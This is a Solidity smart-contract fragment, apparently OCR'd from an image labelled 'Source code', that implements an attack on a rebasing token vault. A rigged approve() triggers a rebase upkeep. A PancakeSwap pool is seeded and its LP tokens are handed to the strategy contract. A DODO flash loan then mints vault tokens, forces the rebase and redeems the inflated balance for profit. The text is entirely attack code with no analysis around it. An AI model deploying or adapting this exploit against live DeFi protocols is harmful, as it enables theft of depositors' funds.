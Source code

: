 ```solidity
    function approve(address _spender, uint _value) public returns (bool success){
        if(msg.sender == address(strategy)){
            IPerform(rebaseUpKeep).performUpkeep("0x");
        }
        allowance[msg.sender][_spender] = _value; 
        return true;
    }
    function init() public{
        require(msg.sender == owner);
        balanceOf[address(this)] = 1000000;
        IRhoToken(rhoAddress).setRebasingOption(true);


        IERC20(rhoAddress).approve(vaultAddress, MAX);
        IERC20(BUSDAddress).approve(vaultAddress, MAX);
        IERC20(BUSDAddress).approve(PancakeRouter, MAX);
        IERC20(address(this)).approve(PancakeRouter, MAX);
        IERC20(rhoAddress).approve(PancakeRouter, MAX);


        (, , uint lpamount ) = IPancakeRouter01(PancakeRouter).addLiquidity(BUSDAddress, address(this), 1000, 1000000, 0, 0, address(this), block.timestamp);
        pair = IPancakeFactory(PancakeFactory).getPair(BUSDAddress, address(this));
        IPancakePair(pair).transfer(strategy, lpamount);
        IVault(vaultAddress).mint(10000);
        IPerform(rebaseUpKeep).performUpkeep("0x");
        IVault(vaultAddress).redeem(IERC20(rhoAddress).balanceOf(address(this)));
    }
    function payday() public{
        IFlashLoan(flashloanAddress).flashLoan(0, IERC20(BUSDAddress).balanceOf(flashloanAddress) , address(this), "0x");
    }
    function  DPPFlashLoanCall(address sender, uint256 baseAmount, uint256 quoteAmount, bytes calldata data) external {
        BUSDBalanceBefore = IERC20(BUSDAddress).balanceOf(address(this));
        (Mbefore, ) = IRhoToken(rhoAddress).getMultiplier();
        IVault(vaultAddress).mint(IERC20(BUSDAddress).balanceOf(address(this)));
        rhoBefore = IERC20(rhoAddress).balanceOf(address(this));
        IPerform(rebaseUpKeep).performUpkeep("0x");


        (Mafter,) = IRhoToken(rhoAddress).getMultiplier();
        rhoAfter = IERC20(rhoAddress).balanceOf(address(this));
        IVault(vaultAddress).redeem(rhoAfter);
        BUSDBalanceAfter = IERC20(BUSDAddress).balanceOf(address(this));
        IERC20(BUSDAddress).transfer(flashloanAddress, quoteAmount);
    }
    
}
```
